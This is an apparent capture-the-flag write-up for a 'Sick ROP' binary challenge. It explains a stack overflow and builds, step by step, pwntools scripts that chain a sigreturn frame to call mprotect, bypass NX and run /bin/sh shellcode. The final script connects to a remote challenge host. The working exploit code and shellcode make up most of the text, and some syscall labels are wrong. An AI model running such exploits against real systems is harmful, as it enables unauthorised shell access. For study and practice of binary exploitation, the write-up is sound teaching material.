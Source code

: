 # Sick ROP 

## 1. Information gathering
Bin doesn't seem to be complicated, it only has its _start and vuln() function with read and write helpers.

![objdump](pix/objdump.PNG)

Also NX there is enabled..  
![checksec](pix/checksec.PNG)  
So we cannot execute own shellcode from stack.  
  

By running binary with GDB we can see that there is overflow which will cause SEG fault  
![segfault](pix/seg_fault.PNG)  

With pattern create 100/offset we see that overflow occurs after 40b and something to notice: RAX holds exactly our 100 + \n length (0x65).  
Therefore we are able to control RSB (stack pointer) and RAX (return value) so may be able to do some rop chaining here.  

## 2. Testing theory 
Using pwntools with python, we can write code to test if we are able to control RIP by setting offset + vuln function address + new RIP:  
```
from pwn import *
p = process(['gdb-peda', 'sick_rop'])

offset = b'A'*40
vuln_addr = p64(0x40102e)
p.interactive()
p.sendline(offset + vuln_addr + b"BBBB") # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"AAAAA")
p.recv(timeout=1)
p.interactive()
```

![rip](pix/rip_controlled.PNG)  
Here we can see that we are totally able to control RIP with this.  
But to be able to execute shellcode with rop chaining, we need 2 main gadgets: sigreturn syscall and syscall return.  

![gadgets](pix/gadgets.PNG)  
Here we see syscall; ret; address 0x401014  
As we seen before, we were able to control RAX value which is needed to call sigreturn syscall:
```
sigreturn syscall gadget: rax=0xf; syscall
```  
By changing our code to:

```
from pwn import *
p = process(['gdb-peda', 'sick_rop'])

offset = b'A'*40
vuln_addr = p64(0x40102e)
p.interactive()
p.sendline(offset + vuln_addr + b"BBBB") # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"A"*14)
p.recv(timeout=1)
p.interactive()
```  
We can see that our RAX value is now indeed 0xf (mtproctect syscall).


## 3. Building ROP chain

Next for building SigreturnFrame, we need couple more things: base address of bin and vuln() functions PTR, base address can be found with GDB: vmmap  
![baseaddr](pix/base_addr.PNG)  
and vuln functions pointer with gdb find VULN_ADDR  
![vulnptr](pix/vuln_ptr.PNG)  

Now we can build our mtprotect call:  
```
from pwn import *
p = process(['gdb-peda', './sick_rop'])
context.arch = "amd64"

offset = b'A'*40
vuln_addr = p64(0x40102e)
vuln_ptr_addr = 0x4010d8
base_addr = 0x0000000000400000
syscall = p64(0x401014)

sigFrame = SigreturnFrame()
sigFrame.rax = 0xa # mtprotect syscall == 10
sigFrame.rdi = base_addr # Programs base address 0x0000000000400000
sigFrame.rsi = 0x4000 # Length
sigFrame.rdx = 7 # permissions R-W-X
sigFrame.rsp = vuln_ptr_addr #pointer addr to vuln function
sigFrame.rip = 0x401014 # syscall addr

p.interactive()
p.sendline(offset + vuln_addr + syscall + bytes(sigFrame)) # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"A"*14)
p.recv(timeout=1)
p.interactive()
```  
![run](pix/rwxp.PNG)  
Here we can now see that NX is bypassed! 
We also passed some A chars which we can see has ptr as: 0x4010b8 where our shellcode will be placed!  
Next we need shellcode, I will use shellstroms 23B shellcode for this, next we just build this all up:  
```
from pwn import *
#p = process(['gdb-peda','./sick_rop'])
p = remote("159.65.27.79",32030)
context.arch = "amd64"

# shellcode, length 23B
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"

offset = b'A'*40
vuln_addr = p64(0x40102e)
vuln_ptr_addr = 0x4010d8
base_addr = 0x0000000000400000
syscall = p64(0x401014)

sigFrame = SigreturnFrame()
sigFrame.rax = 0xa # mtprotect syscall == 10
sigFrame.rdi = base_addr # Programs base address 0x0000000000400000
sigFrame.rsi = 0x4000 # Length
sigFrame.rdx = 7 # permissions R-W-X
sigFrame.rsp = vuln_ptr_addr #pointer addr to vuln function
sigFrame.rip = 0x401014 # syscall addr

p.sendline(offset + vuln_addr + syscall + bytes(sigFrame)) # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"A"*14)
p.recv(timeout=1)

p.sendline(shellcode + b'\x90' * (40-len(shellcode)) + p64(0x4010b8))
p.recv()
p.interactive()
```

![flag](pix/flag.PNG)  
And there we have it!


Good links:  
https://failingsilently.wordpress.com/2017/12/17/rop-exploit-mprotect-and-shellcode/  
https://docs.pwntools.com/en/stable/rop/srop.html


